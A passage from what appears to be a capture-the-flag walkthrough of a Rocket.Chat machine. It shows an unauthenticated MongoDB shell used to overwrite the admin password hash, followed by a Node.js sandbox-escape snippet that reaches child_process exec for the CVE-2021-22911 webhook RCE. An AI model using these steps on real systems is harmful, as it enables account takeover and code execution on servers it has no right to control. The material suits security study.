 ```bash
   2022-08-22T06:51:09.751+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2022-08-22T06:51:12.235+0000: 
   2022-08-22T06:51:12.235+0000: ** WARNING: Access control is not enabled for the database.
   2022-08-22T06:51:12.235+0000: **          Read and write access to data and configuration is unrestricted.
   2022-08-22T06:51:12.236+0000:
------

rs0 [direct: primary] test> 

```

Following the documentation, we see that we can change the admin to 12345 using:

https://docs.rocket.chat/guides/administration/admin-panel/advanced-admin-settings/restoring-an-admin

```bash
rs0 [direct: primary] parties> show dbs
admin   104.00 KiB
config  124.00 KiB
local    11.48 MiB
meteor    4.64 MiB

rs0 [direct: primary] parties> use meteor
switched to db meteor

rs0 [direct: primary] parties> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 0,
  modifiedCount: 0,
  upsertedCount: 0
}

```
Let's go back to RocketChat at port 3000 and login using admin:12345

```nodejs
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('command here');
```
Found this CVE: https://github.com/CsEnox/CVE-2021-22911. In this description of the PoC I read: 

RCE ( Autenticated - Admin )
Rocket.Chat has a feature called Integrations that allows creating incoming and outgoing web hooks. These web hooks can have scripts associated with them that are executed when the web hook is triggered.
